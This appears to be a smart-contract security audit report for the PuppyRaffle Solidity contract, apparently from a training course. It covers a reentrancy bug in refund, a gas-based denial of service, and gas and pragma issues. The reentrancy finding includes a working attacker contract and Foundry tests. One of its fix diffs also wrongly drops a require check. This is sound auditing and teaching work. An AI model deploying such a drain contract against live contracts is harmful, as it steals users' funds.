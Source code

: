 ### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance

​
**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.
​
In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that call do we update the `PuppyRaffle::players` array.
​
```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
​
@>  payable(msg.sender).sendValue(entranceFee);
@>  players[playerIndex] = address(0);
​
    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and again claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by a malicious participant.

**Proof of Concept:**
​
1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the PuppyRaffle balance.
​
<details>
<summary>PoC Code</summary>
​
Add the following to `PuppyRaffle.t.sol`
​

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;
​
    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }
​
    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
​
    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
​
    fallback() external payable {
        _stealMoney();
    }
​
    receive() external payable {
        _stealMoney();
    }
}
​
// test to confirm vulnerability
function testCanGetRefundReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
​
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);
​
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
​
    // attack
​
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();
​
    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```
</details>

**Recommendation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally we should move the event emission up as well.
​

    ```diff
    function refund(uint256 playerIndex) public {
       address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        - require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    +    players[playerIndex] = address(0);
    +    emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFees);
    -   players[playerIndex] = address(0);
    -   emit RaffleRefunded(playerAddress);
    }
    ```

### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle:players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array is an additional check the loop will have to make.
​
```javascript
// @audit Dos Attack
@> for(uint256 i = 0; i < players.length -1; i++){
    for(uint256 j = i+1; j< players.length; j++){
    require(players[i] != players[j],"PuppyRaffle: Duplicate Player");
  }
}
```

**Impact:** The gas consts for raffle entrants will greatly increase as more players enter the raffle, discouraging later users from entering and causing a rush at the start of a raffle to be one of the first entrants in queue.
​
An attacker might make the `PuppyRaffle:entrants` array so big that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**
​
If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252048 gas
- 2nd 100 players: ~18068138 gas
​
This is more than 3x more expensive for the second 100 players.
​
<details>
<summary>Proof of Code</summary>
​Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
    function testDenialOfService() public {
        // Foundry lets us set a gas price
        vm.txGasPrice(1);

        // Creates 100 addresses
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < players.length; i++) {
            players[i] = address(i);
        }

        // Gas calculations for first 100 players
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players: ", gasUsedFirst);

        // Creates another array of 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint256 i = 0; i < playersTwo.length; i++) {
            playersTwo[i] = address(i + playersNum);
        }

        // Gas calculations for second 100 players
        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
        uint256 gasEndTwo = gasleft();
        uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);

        assert(gasUsedSecond > gasUsedFirst);
    }
```
​
</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyway, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a uint256 id, and the mapping would be a player address mapped to the raffle Id.

```diff
    +    mapping(address => uint256) public addressToRaffleId;
    +    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
    +            addressToRaffleId[newPlayers[i]] = raffleId;
        }

    -        // Check for duplicates
    +       // Check for duplicates only from the new players
    +       for (uint256 i = 0; i < newPlayers.length; i++) {
    +          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
    +       }
    -        for (uint256 i = 0; i < players.length; i++) {
    -            for (uint256 j = i + 1; j < players.length; j++) {
    -                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    -            }
    -        }
        emit RaffleEnter(newPlayers);
    }
    .
    .
    .
    function selectWinner() external {
    +       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

Alternatively, you could use **[OpenZeppelin's EnumerableSet library](https://docs.openzeppelin.com/contracts/5.x/api/utils#EnumerableSet)**.

### [I-1]: Solidity pragma should be specific, not wide
​
Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`
​
- Found in src/PuppyRaffle.sol [Line: 3](src/PuppyRaffle.sol#L3)
​
	```solidity
	pragma solidity ^0.7.6;
	```
# Gas
​
### [G-1] Unchanged state variables should be declared constant or immutable
​
Reading from storage is much more expensive than reading a constant or immutable variable.
​
Instances:
​
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage Variables in a Loop Should be Cached
​
Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.
​
```diff
+ uint256 playersLength = players.length;
- for (uint256 i = 0; i < players.length - 1; i++) {
+ for (uint256 i = 0; i < playersLength - 1; i++) {
-    for (uint256 j = i + 1; j < players.length; j++) {
+    for (uint256 j = i + 1; j < playersLength; j++) {
      require(players[i] != players[j], "PuppyRaffle: Duplicate player");
}
}
```

### [I-2] Using an Outdated Version of Solidity is Not Recommended
​
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.
Recommendation
​
**Recommendations:**
​
Deploy with any of the following Solidity versions:
​
    `0.8.18`
​
The recommendations take into account:
​
    Risks related to recent releases
    Risks of complex code generation changes
    Risks of new language features
    Risks of known bugs
​
Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Missing checks for `address(0)` when assigning values to address state variables
​
Assigning values to address state variables without checking for `address(0)`.
​
- Found in src/PuppyRaffle.sol [Line: 69](src/PuppyRaffle.sol#L69)
​
  ```javascript
          feeAddress = _feeAddress;
  ```
​
- Found in src/PuppyRaffle.sol [Line: 159](src/PuppyRaffle.sol#L159)
​
  ```javascript
          previousWinner = winner;
  ```
​
- Found in src/PuppyRaffle.sol [Line: 182](src/PuppyRaffle.sol#L182)
​
  ```javascript
          feeAddress = newFeeAddress;
  ```
